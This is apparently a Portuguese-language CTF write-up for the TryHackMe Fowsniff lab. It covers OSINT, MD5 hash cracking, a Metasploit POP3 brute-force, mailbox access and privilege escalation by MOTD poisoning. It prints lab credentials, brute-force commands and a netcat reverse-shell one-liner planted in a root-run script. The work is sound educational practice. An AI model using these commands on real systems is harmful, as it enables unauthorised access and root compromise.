







# FowSniff-CTF
Write-up do Fowsniff CTF (TryHackMe), documentando o processo de reconhecimento com OSINT, descoberta de credencias, até a escalação de privilégios via MOTD Poisoning.

## 📌 Informações da Máquina

| Item        | Informação                                      |
| ----------- | ----------------------------------------------- |
| Plataforma  | TryHackMe                                       |
| Sistema     | Linux                                           |
| Dificuldade | Easy                                            |
| Objetivo    | OSINT, Google Dorks, Quebra de Hashes, Acesso Inicial e Escalada de Privilégios |
| Status      | Completed ✅                                    |

> ⚠️ **AVISO LEGAL E NOTA DE ISENÇÃO DE RESPONSABILIDADE**
>
> As credenciais, *hashes*, nomes de usuários e dados expostos neste *write-up* referem-se exclusivamente a um ambiente controlado e fictício do laboratório CTF (**TryHackMe - Fowsniff**), cujas informações já são de conhecimento público e amplamente divulgadas para fins educacionais.
>
> A manutenção desses dados na íntegra possui caráter **estritamente didático**, visando demonstrar o raciocínio analítico e facilitar o aprendizado de outros estudantes de cibersegurança. Em cenários reais e no exercício da profissão de *Penetration Tester* / Segurança da Informação, **não é ético nem permitido** divulgar credenciais, dados sensíveis ou informações de identificação pessoal (PII). A prática de *responsible disclosure* (divulgação responsável) deve ser rigorosamente seguida.
## 🛠️ Ferramentas utilizadas

```text
Nmap
Google Dorks
Crack Station 
SSH
MetaSploit
POP3
NetCat
Linux MOTD
```

# Reconhecimento & OSINT

## Scan de portas:
O primeiro passo da etapa de reconhecimento foi identificar as portas abertas.
Realizei o scan de portas com nmap:
```bash
nmap -sV -sC fowsniff
```
## Portas abertas:
```bash    
22/tcp open  ssh
80/tcp open  http
110/tcp open  pop3
143/tcp open  imap
```
Foi possível encontrar o site da Fowsniff Corp:

Aparentemente a aplicação encontra-se fora do ar.

## OSINT
Realizei Google Dorks para buscar possíveis credenciais vazadas vinculadas a Fowsniff Corp:

A busca foi bem sucedida, foi possível encontrar uma lista de credenciais de e-mail e as hashes de duas respectivas senhas.


# Acesso inicial com NetCat pela porta 110 (POP3)
Após encontrar as credencias de e-mail,  sabendo que a porta 110, onde o serviço POP3 (protocolo utilizado por clientes de e-mail para baixar mensagens de um servidor remoto para o dispositivo local), esta aberta. O próximo passo foi quebrar as hashes para descobrir as senhas de cada usuário.  

## Quebrando Hashes no Crack Station
Existem muitas formas e ferramentas para quebra de hash, como JhonTheRipper, Hashcat, CyberChef, etc. 
Seguindo a proposta do criador do CTF eu utilizei o site CrackStation e obtive as senhas.

```bash
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4 ---> mailcall
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56 ---> bilbo101
tegel@fowsniff:1dc352435fecca338acfd4be10984009 ---> 	apples01
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb ---> skyler22
seina@fowsniff:90dc16d47114aa13671c697fd506cf26 ---> scoobydoo2
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd --->
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b ---> carp4ever
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11 ---> 	orlando12
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e ---> 07011972
```
As hashes foram criadas em MD5, esse algoritmo é considerado extremamente inseguro e não é recomendado seu uso em ambientes reais. 

## Brute Force de Credenciais com MetaSploit Framework 
Inicialmente criei dois arquivos de texto, um contendo os usuários, chamado users.txt, e outro, contendo as senhas chamado pass.txt.
Utilizei o pacote auxiliary(scanner/pop3/pop3_login) para buscar por credenciais compatíveis com o serviço da porta 110.
```bash
msf auxiliary(scanner/pop3/pop3_login) > set RHOSTS fowsniff
RHOSTS => fowsniff
msf auxiliary(scanner/pop3/pop3_login) > set USER_FILE users.txt
USER_FILE => users.txt
msf auxiliary(scanner/pop3/pop3_login) > set PASS_FILE pass.txt
PASS_FILE => pass.txt
msf auxiliary(scanner/pop3/pop3_login) > run
```
O MetaSploit retornou com o match de credenciais válidas:
```bash
[+] fowsniff:110      - fowsniff:110      - Success: 'seina:scoobydoo2' '+OK Logged in
```

## Realizando conexão com NetCat
Com as credenciais realizei conexão na porta 110
```bash
nc fowsniff 110
+OK Welcome to the Fowsniff Corporate Mail Server!
USER seina
+OK
PASS scoobydoo2
+OK Logged in.
```

# Explorando o acesso a porta 110
Com o acesso estabelecido foi possível localizar duas mensagens:
```bash
LIST
+OK 2 messages:
1 1622
2 1280
```
Mensagem 1: 
```bash
RETR 1
+OK 1622 octets
Return-Path: <stone@fowsniff>
X-Original-To: seina@fowsniff
Delivered-To: seina@fowsniff
Received: by fowsniff (Postfix, from userid 1000)
        id 0FA3916A; Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
To: baksteen@fowsniff, mauer@fowsniff, mursten@fowsniff,
    mustikka@fowsniff, parede@fowsniff, sciana@fowsniff, seina@fowsniff,
    tegel@fowsniff
Subject: URGENT! Security EVENT!
Message-Id: <20180313185107.0FA3916A@fowsniff>
Date: Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
From: stone@fowsniff (stone)

Dear All,

A few days ago, a malicious actor was able to gain entry to
our internal email systems. The attacker was able to exploit
incorrectly filtered escape characters within our SQL database
to access our login credentials. Both the SQL and authentication
system used legacy methods that had not been updated in some time.

We have been instructed to perform a complete internal system
overhaul. While the main systems are "in the shop," we have
moved to this isolated, temporary server that has minimal
functionality.

This server is capable of sending and receiving emails, but only
locally. That means you can only send emails to other users, not
to the world wide web. You can, however, access this system via 
the SSH protocol.

The temporary password for SSH is "S1ck3nBluff+secureshell"  S1ck3nBluff+secureshell

You MUST change this password as soon as possible, and you will do so under my
guidance. I saw the leak the attacker posted online, and I must say that your
passwords were not very secure.

Come see me in my office at your earliest convenience and we'll set it up.

Thanks,
A.J Stone
```
Mensagem 2:
```bash
RETR 2
+OK 1280 octets
Return-Path: <baksteen@fowsniff>
X-Original-To: seina@fowsniff
Delivered-To: seina@fowsniff
Received: by fowsniff (Postfix, from userid 1004)
        id 101CA1AC2; Tue, 13 Mar 2018 14:54:05 -0400 (EDT)
To: seina@fowsniff
Subject: You missed out!
Message-Id: <20180313185405.101CA1AC2@fowsniff>
Date: Tue, 13 Mar 2018 14:54:05 -0400 (EDT)
From: baksteen@fowsniff

Devin,

You should have seen the brass lay into AJ today!
We are going to be talking about this one for a looooong time hahaha.
Who knew the regional manager had been in the navy? She was swearing like a sailor!

I don't know what kind of pneumonia or something you brought back with
you from your camping trip, but I think I'm coming down with it myself.
How long have you been gone - a week?
Next time you're going to get sick and miss the managerial blowout of the century,
at least keep it to yourself!

I'm going to head home early and eat some chicken soup. 
I think I just got an email from Stone, too, but it's probably just some
"Let me explain the tone of my meeting with management" face-saving mail.
I'll read it when I get back.

Feel better,

Skyler

PS: Make sure you change your email password. 
AJ had been telling us to do that right before Captain Profanity showed up.
```
A partir das mensagens descobri que a Fowsniff Corp já esta ciente do vazamento de dados, e criou uma senha temporária para que os colaboradores utilizem.
Também foi descoberto o nome real dos usuários: baksteen se chama Skyler e seina se chama Devin.
O e-mail solicita que a troca de senha seja realizada com urgência, porém a segunda mensagem mostra que Skyler (baksteen), esta doente e se ausentou do trabalho antes que podesse visualizar o informativo. 

# Realizando acesso via SSH
Foi possível obter acesso via SSH, com as credenciais encontradas.
```bash
ssh baksteen@fowsniff
The authenticity of host 'fowsniff (XX.XX.XXX.XX)' can't be established.
ED25519 key fingerprint is: SHA256:KZLP3ydGPtqtxnZ11SUpIwqMdeOUzGWHV+c3FqcKYg0
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'XX.XX.XXX.XX' (ED25519) to the list of known hosts.
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
baksteen@fowsniff's password: 

                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions


   ****  Welcome to the Fowsniff Corporate Server! **** 

              ---------- NOTICE: ----------

 * Due to the recent security breach, we are running on a very minimal system.
 * Contact AJ Stone -IMMEDIATELY- about changing your email and SSH passwords.
baksteen@fowsniff:~$

```

## Explorando o acesso
Primeiro busquei entender as permissões do usuário:
```bash
 baksteen@fowsniff:~$ id
uid=1004(baksteen) gid=100(users) groups=100(users),1001(baksteen)
```
O usuário se trata de um usuário comum e pertence ao grupo users.
Outro ponto que me chamou atenção foi o banner exibido assim que o acesso é realizado.
Aparentemente se trata de uma mensagem padrão do sistema, buscando pelo diretório /etc/update-motd.d, ao visualizar seus arquivos encontrei o 00-header.
```bash
baksteen@fowsniff:/etc/update-motd.d$ cat 00-header
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

#[ -r /etc/lsb-release ] && . /etc/lsb-release

#if [ -z "$DISTRIB_DESCRIPTION" ] && [ -x /usr/bin/lsb_release ]; then
#       # Fall back to using the very slow lsb_release utility
#       DISTRIB_DESCRIPTION=$(lsb_release -s -d)
#fi

#printf "Welcome to %s (%s %s %s)\n" "$DISTRIB_DESCRIPTION" "$(uname -o)" "$(uname -r)" "$(uname -m)"

sh /opt/cube/cube.sh

```
O arquivo se trata justamente do primeiro script executado pelo sistema dentro do diretório /etc/update-motd.d/ ao gerar o banner de login (MOTD).
O script possui uma vulnerabilidade, o mesmo redireciona a execução para ---> sh /opt/cube/cube.sh.

# Escalada de Privilégios (MOTD Poisoning)
Verifiquei as permissões do arquivo cube.sh:



O grupo users tem permissão para editar o arquivo.

## Inserindo Shell Reverso no script
O arquivo será executado como root, ao inserir uma shell reversa posso conseguir escalar privilégios:
```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc <IP> 443 > /tmp/f
```
A shell reversa acima permite acessar uma conexão remotamente, ao iniciar o acesso ssh o mesmo é redirecionado para a esculta na porta 443.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Criei um pseudo terminal após o acesso e consegui me estabelecer como root:


# Root Flag 
Abusando dos privilégios obtidos, naveguei até a pasta root e acessei o arquivo flag.txt:



# 🔓 Vulnerabilidades Identificadas

| Vulnerabilidade / Técnica | O que aconteceu | Impacto |
| :--- | :--- | :--- |
| **Data Leakage & OSINT** | Vazamento de dados em fonte aberta contendo lista de hashes/credenciais corporativas. | Permitiu obter credenciais iniciais e e-mails de funcionários. |
| **Criptografia Fraca (MD5)** | Hashes de senhas armazenadas/vazadas em formato MD5 sem salt. | Permitiu a quebra rápida de senhas no CrackStation. |
| **Exposição de Serviço (POP3)** | Serviço de e-mail acessível sem criptografia e com credenciais válidas. | Permitiu a leitura de e-mails internos e coleta da senha do usuário `baksteen`. |
| **Permissões Incorretas de Arquivo** | O script `/opt/cube/cube.sh` pertencia ao grupo `users` com permissão de escrita (`w`). | Permitiu que o usuário `baksteen` alterasse o conteúdo do arquivo executado pelo sistema. |
| **MOTD Poisoning (PrivEsc)** | O `/etc/update-motd.d/00-header` chama o script `/opt/cube/cube.sh` com privilégios de `root` no login SSH. | Permitiu a injeção de uma reverse shell e o comprometimento total do servidor (`root`). |


## 🏁 Conclusão

Apesar de a máquina **Fowsniff** possuir apenas uma única flag final, ela se provou um desafio extremamente rico, dinâmico e educativo. É um CTF altamente recomendado para iniciantes em segurança da informação e penetration testing, pois simula uma cadeia de ataque (Kill Chain) completa e realista.

O principal diferencial desta máquina é a forma como ela força o praticante a conectar conceitos de diferentes áreas e buscar métodos alternativos para contornar cada obstáculo. Durante o processo, foi possível colocar em prática desde o reconhecimento passivo com Google Dorks e análise de dados expostos (OSINT), até a quebra de hashes, enumeração de serviços locais (POP3) e a criação/recepção de Reverse Shells para escalada de privilégios via MOTD Poisoning.

No geral, é um laboratório focado na prática sólida dos fundamentos, incentivando a mentalidade investigativa e mostrando como pequenas falhas de configuração em camadas distintas podem levar ao comprometimento total de um servidor. Um CTF simples no objetivo, mas essencial para a construção de uma base técnica forte.


